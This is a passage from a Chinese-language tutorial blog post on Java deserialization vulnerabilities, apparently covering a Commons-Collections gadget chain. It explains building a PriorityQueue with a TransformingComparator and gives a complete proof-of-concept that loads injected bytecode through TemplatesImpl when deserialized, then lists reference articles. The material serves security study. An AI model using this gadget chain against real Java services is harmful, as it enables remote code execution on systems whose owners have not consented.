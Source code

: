 实例化 `PriorityQueue` ，向队列里添加的元素是前面创建的 `TemplatesImpl` 对象：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```java<br>PriorityQueue queue = new PriorityQueue(2, comparator);<br>queue.add(obj);<br>queue.add(obj);<br>``` |

原因很简单，和上一篇文章相同，因为我们这里无法再使用 `Transformer` 数组，所以也就不能用 `ConstantTransformer` 来初始化变量，需要接受外部传入的变量。而在 `Comparator#compare()` 时，队列里的元素将作为参数传入 `transform()` 方法，这就是传给 `TemplatesImpl#newTransformer` 的参数。

最后一步，将 `toString` 方法改成恶意方法 `newTransformer` :

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```java<br>setFieldValue(transformer, "iMethodName", "newTransformer");<br>``` |

最终的 POC：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>``` | ```java<br>public static void main(String[] args) throws Exception {<br>    TemplatesImpl obj = new TemplatesImpl();<br>    setFieldValue(obj, "_bytecodes", new byte[][]{getBytescode()});<br>    setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>    setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br>    <br>    Transformer transformer = new InvokerTransformer("toString", null, null);<br>  <br>    Comparator comparator = new TransformingComparator(transformer);<br>  <br>    PriorityQueue queue = new PriorityQueue(2, comparator);<br>    queue.add(obj);<br>    queue.add(obj);<br>  <br>    setFieldValue(transformer, "iMethodName", "newTransformer");<br>  <br>    ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>    ObjectOutputStream oos = new ObjectOutputStream(barr);<br>    oos.writeObject(queue);<br>    oos.close();<br><br>    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>    Object o = (Object)ois.readObject();<br>}<br>``` |

## [](#%E5%8F%82%E8%80%83)参考

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)

[Java 反序列化漏洞原理解析](https://xz.aliyun.com/t/6787#toc-11)

[Java 反序列化漏洞从入门到关门](https://www.freebuf.com/articles/web/271275.html)

[从 0 开始学 Java 反序列化漏洞](https://yinwc.github.io/2020/02/08/java%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e/)

[深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312/)

[Java 反序列化利用链补全计划](https://0range228.github.io/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%E8%A1%A5%E5%85%A8%E8%AE%A1%E5%88%92/)

[Commons-Collections 利用链分析](https://mp.weixin.qq.com/s/sraJ2K9R2CkLHiCcPK0wrA)
